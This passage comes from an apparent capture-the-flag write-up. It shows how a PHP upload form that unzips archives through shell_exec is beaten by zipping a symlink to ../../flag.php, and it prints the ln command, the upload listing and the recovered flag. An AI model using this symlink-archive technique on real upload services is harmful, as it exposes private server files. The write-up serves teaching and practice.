        <p>Upload your file</p>
       <input type="file" name="uploaded_file"></input><br />
       <input type="submit"></input>
   </form>
   <a href="?source=1">Show source</a>
</body>
</html>
<?php
   }
}
?>
{% endhighlight %}

The most important part is that the `shell_exec` function will use `unzip` tool, unpacking the archive that we uploaded. We have to somehow get to the flag, which is located in the main directory - `http://35.197.205.153/flag.php`. Firstly, we'll have to get 2 directories higher so `../../` should be essential.

After a while I found out that we can simply compress ***symlinks***, which will allow us to enter a file linked by the content of an archive. Let's create this file.

{% highlight bash %}
ln -s ../../flag.php ./symlink.txt
{% endhighlight %}

Now we're able to compress it and send to the web service.

{% highlight html %}
<html>
<head><title>Index of /uploads/upl5a46a1bef0d1f/</title></head>
<body bgcolor="white">
<h1>Index of /uploads/upl5a46a1bef0d1f/</h1><hr><pre><a href="../">../</a>
<a href="symlink.txt">symlink.txt</a>                                        27-Dec-2017 19:57                  48
</pre><hr></body>
</html>
{% endhighlight %}

After viewing the content of `symlink.txt`, we are provided with the content of `flag`.

{% highlight php %}
<?php
$flag = "34C3_unpack_th3_M1ss1ng_l!nk"
?>
{% endhighlight %}
